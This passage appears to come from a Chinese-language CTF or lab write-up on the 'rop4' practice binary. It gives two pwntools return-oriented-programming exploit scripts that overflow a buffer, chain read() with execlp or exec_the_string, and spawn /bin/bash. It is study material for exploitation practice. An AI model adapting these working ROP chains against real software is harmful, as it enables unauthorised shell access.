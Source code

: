 ```python

payload += p32(read_addr)+p32(pppr)+p32(0x0)+p32(char_addr)+p32(0x09)

# 调用execlp执行，execlp(exec_string,exec_string,0)

payload += p32(execlp_addr)+b"JUNK"+p32(char_addr)+p32(char_addr)+p32(0x0)

p.sendline(payload)
p.send(b"/bin/bash")
p.interactive()
```

运行截图：

![image-20211117105117774](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032007350.png)



###### 方法二（exec_the_string）：

```python
# coding=UTF-8

from pwn import *
context(os='linux', arch='i386', log_level='debug')

code = ELF("./rop4")
p = process('./rop4')

read_addr = code.symbols['__libc_read']
char_addr = code.symbols['exec_string']
exec_the_string = code.symbols['exec_the_string']

pppr = 0x0809cd25

# 填充

payload = b"A"*140

# read(0,&exec_string,9)

# 把"/bin/bash"读入&exec_string

payload += p32(read_addr)+p32(pppr)+p32(0x0)+p32(char_addr)+p32(0x09)

# 调用exec_the_string()

payload += p32(exec_the_string)

p.sendline(payload)
p.send(b"/bin/bash")
p.interactive()
```
